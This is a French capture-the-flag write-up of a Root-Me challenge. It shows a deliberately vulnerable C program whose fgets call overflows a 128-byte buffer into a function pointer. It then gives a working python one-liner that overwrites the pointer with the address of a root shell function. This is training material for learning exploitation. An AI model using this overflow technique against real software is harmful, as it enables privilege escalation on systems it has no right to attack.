 ```yaml
---
categorie: app-systeme
tags:
  - rootme
  - "#informatique/cyber"
---
```

# But : 

devenir root, pour acceder au .passwd 

# Le programme : 

```
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>

void shell() {
    setreuid(geteuid(), geteuid());
    system("/bin/bash");
}

void sup() {
    printf("Hey dude ! Waaaaazzaaaaaaaa ?!\n");
}

void main()
{ 
    int var;
    void (*func)()=sup;
    char buf[128];
    fgets(buf,133,stdin);
    func();
}
```

Cette fois ci c'est la fonction fgets() qui est utilisÃ©e, celle qui vÃ©rifie la quantitÃ© d'info qu'on donne

# MÃ©thode de rÃ©solution

on va donc utiliser un outil pour savoir l'adresse mÃ©moire de la fonction "shell" du programme

```
objdump -D ch15
```

![[Pasted image 20240406204042.png]]

je trouve l'information "08048516"

c'est de l'hexa que l'on converti en shellcode : 0x16 0x85 0x04 0x08

je vais donc executer un petit code python, qui me permet d'afficher 128 "a" suivi du shellcode haxa, puis qui utilise "cat" pour rester dans la commande

```
((python -c "print 'A'*128+'\x16\x85\x04\x08'") ; cat)  | ./ch15
```


![[Pasted image 20240406210611.png]]

au final Ã§a fonction car on peut injecter une adresse car il n'y a pas l'aslr